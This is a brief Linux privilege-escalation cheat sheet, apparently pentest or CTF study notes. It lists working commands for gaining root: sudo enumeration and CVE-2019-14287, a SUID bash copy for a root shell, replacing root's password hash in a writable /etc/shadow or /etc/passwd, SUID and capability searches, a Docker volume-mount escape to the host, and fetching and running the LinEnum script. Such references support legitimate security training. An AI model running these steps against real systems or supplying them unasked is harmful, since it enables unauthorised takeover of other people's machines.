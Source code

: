 					Sudo 
- Can you su without a password?		       `su root`
- are you already a sudo user?			   `sudo su -`
- what can we run with sudo?			  `sudo -l`
- sudo versions < 1.8.28 are vulnerable to `CVE-2019-14287`

<!-- -->
				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
ls -l /etc/shadow					is /etc/shadow writable?
- mkpasswd -m sha-512 password		Makes password Hash
- replace root password hash with the one you just generated
- su root								switch to root

<!-- -->

			 	Writable /etc/passwd
ls -l /etc/passwd					is /etc/passwd writeable?
- openssl passwd password			      Generate password hash
- place the new password hash between the first and second colon (:) of the root user's row (replacing the "x").
- su root							      switch to root

<!-- -->

				Suid
Find all Suids `find / -perm -u=s -type f 2>/dev/null`

				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				Capabilities
## Identifying Capabilities
`getcap -r / 2>/dev/null`

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/